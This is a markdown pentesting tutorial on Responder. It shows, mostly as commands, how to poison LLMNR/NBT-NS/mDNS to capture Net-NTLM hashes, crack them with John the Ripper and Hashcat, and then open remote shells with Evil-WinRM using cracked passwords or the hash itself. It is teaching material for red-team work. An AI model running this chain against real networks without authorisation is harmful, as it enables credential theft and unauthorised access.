 Responder is a powerful man-in-the-middle (MITM) tool used during internal penetration testing or red teaming. It works by poisoning name resolution protocols such as LLMNR (Link-Local Multicast Name Resolution), NBT-NS (NetBIOS Name Service), and mDNS (Multicast DNS) to intercept authentication requests on a local network. When a system tries to resolve a name that doesn't exist, Responder replies with its own IP address, tricking the system into authenticating to it. This often results in capturing valuable Net-NTLMv1 or Net-NTLMv2 password hashes, which can then be cracked using tools like John the Ripper or Hashcat.

## Installation

1. Install Responder on Kali Linux:

```
sudo apt update && sudo apt install responder
```
   
2. Clone Responder Repository (if needed):

```
git clone https://github.com/lgandx/Responder.git
cd Responder
```
   
### Usage

3. Start Responder (Basic Mode):

```
sudo python3 Responder.py -I eth0
```
   
- -I eth0: Specify the network interface to listen on.        
- Listens for LLMNR, NBT-NS, and mDNS requests to capture hashes.

4. Start Responder with Extended Features:

```
sudo python3 Responder.py -I eth0 -rdw
```
   
- `-r`: Enables LLMNR and NBT-NS poisoning.
- `-d`: DNS spoofing.
- `-w`: Web Server to capture credentials from HTTP requests.
 
5. Capture NTLM Hashes:

- Hashes are stored in `Responder/logs/` and can be cracked using John or Hashcat.

6. Analyzing Captured Hashes:    

```
john --format=NT hashfile.txt
```
   
7. Configure Responder to Redirect SMB/HTTP Requests:

```
sudo python3 Responder.py -I eth0 -rdwh
```
   
### Common Responder Commands

- Start in Listen Mode:

```
sudo python3 Responder.py -I eth0
```
 
- Show Information on Interface:    

```
 sudo python3 Responder.py -I eth0 -w
```
   
- Stop Responder:  

	- Use `CTRL+C` to terminate the process.
 

### Using Responder to Capture Hashes

```
sudo responder -I eth0
```

- `-I eth0`: Replace `eth0` with the network interface you are monitoring.
- Wait for a system to attempt to resolve a non-existent hostname.
- Responder will capture and log Net-NTLM hashes.

Hash example:

Administrator:::37f4e9cbeb85d711:9A4ABD7B2C1E16929D902A48952DAF97:0101000000000000...


Cracking Net-NTLMv2 Hashes with John the Ripper

1. Save the hash in a file called `raw_hash.txt`.    
2. Use the `ntlmv2-to-john.py` script (create if missing):

```
/usr/share/john/run/ntlmv2-to-john.py raw_hash.txt > john_ready.txt
```

If the script does not exist, create it manually:

```
python
#!/usr/bin/env python3
import sys

def parse_ntlmv2(line):
    parts = line.strip().split(":")
    if len(parts) < 5:
        return None
    username = parts[0]
    domain = parts[2]
    challenge = parts[3]
    response = parts[4]
    rest = ":".join(parts[5:])
    return f"{username}${domain}${challenge}${response}${rest}"

if len(sys.argv) != 2:
    print("Usage: ntlmv2-to-john.py <inputfile>")
    sys.exit(1)

with open(sys.argv[1], "r") as infile:
    for line in infile:
        parsed = parse_ntlmv2(line)
        if parsed:
            print(parsed)

```

Make it executable:

```
chmod +x /usr/share/john/run/ntlmv2-to-john.py
```

Crack the hash:    

```
john john_ready.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
```

Show results:

```
john --show john_ready.txt
```

### Cracking Net-NTLMv2 Hashes with Hashcat

1. Ensure the hash is in correct format:

```
Administrator::DOMAIN:37f4e9cbeb85d711:9A4ABD7B2C1E16929D902A48952DAF97:0101000000000000...
```

Save to `hashcat_hash.txt`

2. Run Hashcat:

```
hashcat -m 5600 -a 0 -O hashcat_hash.txt /usr/share/wordlists/rockyou.txt
```


3. Show results:

```
hashcat -m 5600 hashcat_hash.txt --show
```


### Using Evil-WinRM for Remote Shell Access

Once you crack the password:

```
evil-winrm -i <target-ip> -u <username> -p <password>
```

Or if you have the NTLM hash:

```
evil-winrm -i <target-ip> -u <username> -H <hash>
```


Summary Workflow

1. Run Responder to capture hashes
2. Crack with John or Hashcat
3. Log in using Evil-WinRM if WinRM is enabled
4. Elevate privileges or pivot as needed

This triad (Responder + Cracking + WinRM) forms the foundation of many internal Windows exploitation and lateral movement chains.